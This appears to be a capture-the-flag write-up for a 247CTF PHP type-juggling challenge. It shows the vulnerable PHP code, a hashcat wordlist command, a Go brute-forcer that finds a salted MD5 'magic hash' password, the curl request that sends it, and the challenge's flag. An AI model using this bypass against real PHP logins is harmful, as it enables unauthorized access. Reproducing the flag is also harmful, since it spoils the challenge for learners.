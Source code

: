 # php-juggling-brute-force
247ctf.com's web challenge - Paris - PHP Juggling challenge

```php
247CTF{76fbce3909b3129536bb396fea3a9879} 
<?php  
require_once('flag.php');  
$password_hash = "0e902564435691274142490923013038";  
$salt = "f789bbc328a3d1a3";  
if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){  
echo $flag;  
}  
echo highlight_file(__FILE__, true);  
?>
```

First thing I did is to create a `pass.txt` file that has compensation of 7 length charachters.

```bash
yas3r@linux:~/Desktop/hashcat-5.1.0$ ./hashcat64.bin -a 3 -m 0 -1 ?l -2 ?d --stdout 1?1?1?1?1?1?l > ~/Desktop/pass.txt
```
So the main thing to do is to create a string of `salt` and the `password` and then compare them to the stored password.
It is obvious there a php juggling vuln `$var1 == $var2`

### GoLang 

```go
package  main
import  (
	"bufio"
	"crypto/md5"
	"encoding/hex"
	"fmt"
	"math/rand"
	"os"
	"regexp"
	"time"
)

var  (
	salt string  =  "f789bbc328a3d1a3"
	path string  =  "./pass.txt"
)

func  main()  {
	readLine(path)
}

func  readLine(path string)  {
	inFile, err := os.Open(path)
		if err !=  nil  {
		fmt.Println(err.Error()  +  `: `  + path)
		return
	}
	defer inFile.Close()
	scanner := bufio.NewScanner(inFile)
		for scanner.Scan()  {
			pass := scanner.Text()  // the line
			word := fmt.Sprintf("%s%s", salt, pass)
			hashed :=  GetMD5Hash(word)
			fmt.Printf("[+] %s: %s\n", word, hashed)
			match, _ := regexp.MatchString("^0e[0-9]{30}", hashed)
			if match {
				fmt.Printf("[+] Found it: %s", pass)
				break
			}
		}
}

  
func  GetMD5Hash(text string)  string  {
	hash := md5.Sum([]byte(text))
	return hex.EncodeToString(hash[:])
}
```


### Result
```bash
yas3r@linux[$]$ go run main.go
			*** DELETED ***
[+] f789bbc328a3d1a31ixwlci: 145d5331c3c49e2cbaf7bdc3331af43a
[+] f789bbc328a3d1a31ewwlci: fbc57cbce4ecca92b6699377d9925f4b
[+] f789bbc328a3d1a31ogwlci: 1884259583936c1a8c257f9ee4cc093e
[+] f789bbc328a3d1a31vtwlci: eb3a79bee6067015dcf12fecbdfe0654
[+] f789bbc328a3d1a31yiwlci: 17ed4e0a013bb819a7c7063aea818feb
[+] f789bbc328a3d1a31zwwlci: b6d172ec57df55799d8ac93623667aa7
[+] f789bbc328a3d1a31uywlci: 36ad482077a739131d051fa9ad7eaba4
[+] f789bbc328a3d1a31xkwlci: 0e398583359856907339487099436498
[+] Found it: 1xkwlci  
```

### Flag
`curl https://d25fcfd9f18adc53.247ctf.com/?password=1xkwlci`

```php
247CTF{76fbce3909b3129536bb396fea3a9879} 
<?php  
	require_once('flag.php');  
	$password_hash = "0e902564435691274142490923013038";  
	$salt = "f789bbc328a3d1a3";  
	if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){  
	echo $flag;  
	}  
	echo highlight_file(__FILE__, true);  
?>
```

